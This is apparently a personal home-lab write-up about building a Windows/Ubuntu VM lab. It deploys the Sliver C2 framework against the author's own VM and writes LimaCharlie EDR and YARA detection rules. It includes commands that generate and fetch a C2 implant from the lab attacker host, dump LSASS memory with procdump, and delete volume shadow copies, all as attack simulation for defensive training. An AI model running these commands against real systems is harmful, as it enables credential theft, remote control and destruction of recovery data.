

Connor Panso
Questions or suggestions, note to cpanso at outlook dot com
This page highlights my home cybersecurity lab environment set up using VMware Workstation Pro, along with both Windows and Ubuntu virtual machines (VMs). It provides a detailed overview of the entire setup process, including downloading and installing the required software, configuring the VMs, and deploying essential tools for security testing and analysis.
Summary: This lab focuses on enhancing cybersecurity defenses through the use of tools like LimaCharlie EDR, YARA, Sliver C2, and VMware Workstation Pro. I configured automated detection and response rules to identify and block malicious activities, such as ransomware attempts to delete volume shadow copies. By implementing YARA signatures, I automated malware detection for both files and processes. These improvements enhance the ability to respond quickly to threats and maintain a secure environment. The lab emphasizes the importance of continuous testing, refining detection rules, and adapting capabilities to stay ahead of emerging cyber threats.
.ovf file.This setup will be the basis for performing various security tests and experiments.
LimaCharlie is a robust SecOps Cloud Platform that provides cross-platform Endpoint Detection and Response (EDR), log management, data ingestion, and threat detection capabilities. This section outlines how to install LimaCharlie on your Windows VM, which is available for free for personal use on up to two systems.
cd C:\Users\User\Downloads
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
cmd.exe
With this configuration, LimaCharlie will now collect Sysmon logs alongside its EDR telemetry, providing comprehensive event data for security monitoring and analysis.
We will set up an attack system using the Linux VM. This will involve accessing the VM via SSH and installing the Sliver Command & Control (C2) framework to carry out cybersecurity operations.
ssh user@[Linux_VM_IP]sudo su
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
chmod +x /usr/local/bin/sliver-server
apt install -y mingw-w64
mkdir -p /opt/sliverWe will now generate a Command & Control (C2) payload using Sliver and deploy it to the Windows VM for testing purposes. This involves creating the payload on the Linux VM, transferring it to the Windows VM, and initiating a command and control session.
sudo su
cd /opt/sliver
sliver-server
generate --http [Linux_VM_IP] --save /opt/sliverimplantsexit
cd /opt/sliver
python3 -m http.server 80
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
Ctrl + C.sliver-serverhttpC:\Users\User\Downloads\[payload_name].exesessionsuse [session_id]info
whoami
getprivs
pwdnetstatps -TThese procedures allow you to generate and deploy a C2 payload, establish a control session, and interact with the compromised Windows VM. By examining network connections and active processes, you gain valuable insights into the security status of the target system, including identifying any defensive measures in place.
With the C2 payload running on the Windows VM, we will use the LimaCharlie web UI to monitor telemetry data and gain insights into the activities occurring on the endpoint. This involves exploring various aspects of LimaCharlie, such as process monitoring, network activity, and file system interactions.
Ctrl+F to search for your implant name or C2 IP address within the network list.C:\Users\User\Downloads).By leveraging LimaCharlie’s detailed views and analysis tools, you can monitor suspicious activities and understand how attackers interact with compromised systems. Knowing the difference between normal and abnormal behaviors is crucial for effectively detecting and responding to security incidents.
We will simulate adversarial activities using the Sliver C2 session to perform actions commonly associated with cyber threats. This will help us learn how to detect and respond to such activities using our security tools.
getprivsSeDebugPrivilege. If present, proceed. If not, restart your C2 implant with administrative rights.lsass.exe:procdump -n lsass.exe -s lsass.dmpSwitch to the LimaCharlie web UI to detect the LSASS dump attempt:
SENSITIVE_PROCESS_ACCESS events.
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
lsass.exe flagged by SENSITIVE_PROCESS_ACCESS events.
- action: report
name: LSASS access
Simulating these adversarial actions and configuring detection rules provides practical experience in identifying and responding to malicious activities. This exercise demonstrates the use of EDR telemetry and detection logic to monitor sensitive processes like LSASS for unauthorized access attempts.
We will repeat the adversarial action to validate the detection rules. By rerunning the LSASS dump, we can verify that our LimaCharlie detection setup correctly identifies this malicious activity.
lsass.exe process again:procdump -n lsass.exe -s lsass.dmpBy repeating the malicious activity and reviewing detection results, you can confirm that your custom detection rules are effectively identifying suspicious actions. This hands-on practice reinforces your understanding of using EDR tools for monitoring and protecting against real-world threats.
In a production environment, it’s crucial to fine-tune detection rules to minimize noise and focus on genuine threats. Regular testing and adjustments will enhance the accuracy and effectiveness of your security monitoring strategy.
Volume Shadow Copies allow for easy restoration of files or entire file systems, making them a vital component in recovering from ransomware attacks. It’s a predictable behavior that one of the first actions of ransomware is to delete these copies to prevent recovery.
The command commonly used to delete volume shadow copies is:
vssadmin delete shadows /allThis command is rarely executed in healthy environments (though some backup or software management tools might occasionally use it), making it a suitable candidate for a blocking rule with low false positives and high threat relevance.
Start your Linux and Windows VMs and return to your Sliver C2 shell.
shellvssadmin delete shadows /allwhoami to verify that the system shell is still active:whoamiBased on the observed detection, create a D&R rule:
- action: report
name: vss_deletion_kill_it
- action: task
command:
- deny_tree
- <<routing/parent>>
action: report generates a detection report. The action: task uses deny_tree to terminate the parent process responsible for running vssadmin delete shadows /all.vss_deletion_kill_itReturn to your Sliver C2 session and rerun the command to delete volume shadows:
vssadmin delete shadows /all
whoami again in the system shell:whoamiIf you see output like “Shell Exited,” it indicates the process was effectively terminated. In a real-world ransomware scenario, this could mean stopping the ransomware payload or lateral movement tool responsible for the attack.
This focuses on leveraging the advanced capabilities of our EDR sensor to automatically scan files and processes for malware using YARA signatures.
We’ll configure our LimaCharlie instance to automatically detect certain file and process activities and trigger YARA scans.
sliver and paste the relevant YARA signature into the rule block.
event: YARA_DETECTION
op: and
rules:
- not: true
op: exists
path: event/PROCESS/*
- op: exists
path: event/RULE_NAME
- action: report
name: YARA Detection {{ .event.RULE_NAME }}
- action: add tag
tag: yara_detection
ttl: 80000
YARA Detection.
event: YARA_DETECTION
op: and
rules:
- op: exists
path: event/RULE_NAME
- op: exists
path: event/PROCESS/*
- action: report
name: YARA Detection in Memory {{ .event.RULE_NAME }}
- action: add tag
tag: yara_detection_memory
ttl: 80000
YARA Detection in Memory.We know there’s a Sliver implant in the Downloads folder on our Windows VM. Let’s manually initiate a YARA scan to verify the setup:
[payload_name] with your Sliver executable name:yara_scan hive://yara/sliver -f C:\Users\User\Downloads\[payload_name].exe
event: NEW_DOCUMENT
op: and
rules:
- op: starts with
path: event/FILE_PATH
value: C:\Users\
- op: contains
path: event/FILE_PATH
value: \Downloads\
- op: ends with
path: event/FILE_PATH
value: .exe
- action: report
name: EXE dropped in Downloads directory
- action: task
command: >-
yara_scan hive://yara/sliver -f "{{ .event.FILE_PATH }}"
investigation: Yara Scan Exe
suppression:
is_global: false
keys:
- '{{ .event.FILE_PATH }}'
- Yara Scan Exe
max_count: 1
period: 1m
YARA Scan Downloaded EXE.
event: NEW_PROCESS
op: and
rules:
- op: starts with
path: event/FILE_PATH
value: C:\Users\
- op: contains
path: event/FILE_PATH
value: \Downloads\
- action: report
name: Execution from Downloads directory
- action: task
command: yara_scan hive://yara/sliver-process --pid "{{ .event.PROCESS_ID }}"
investigation: Yara Scan Process
suppression:
is_global: false
keys:
- '{{ .event.PROCESS_ID }}'
- Yara Scan Process
max_count: 1
period: 1m
YARA Scan Process Launched from Downloads.To test our new rules, simulate a new EXE appearing in the Downloads directory by moving the Sliver payload out and back into the Downloads folder:
Move-Item -Path C:\Users\User\Downloads\[payload_name].exe -Destination C:\Users\User\Documents\[payload_name].exeMove-Item -Path C:\Users\User\Documents\[payload_name].exe -Destination C:\Users\User\Downloads\[payload_name].exeThroughout this page, we've implemented advanced detection and response strategies to enhance our cybersecurity posture. By deploying LimaCharlie EDR and configuring automated YARA scans, we've gained the ability to identify and react to potential threats swiftly. We've also explored how to block malicious activities effectively, such as the deletion of volume shadow copies, which are common in ransomware attacks. These steps are crucial in building a robust defense against various cyber threats.
Moving forward, the next steps will involve refining these detection rules to reduce false positives and increase efficiency. We'll also explore integrating additional threat intelligence sources and expanding our automated scanning capabilities to cover more types of malicious behavior. By continuously enhancing our detection and response mechanisms, we can better protect our environment from both known and emerging threats, keeping our systems secure and resilient.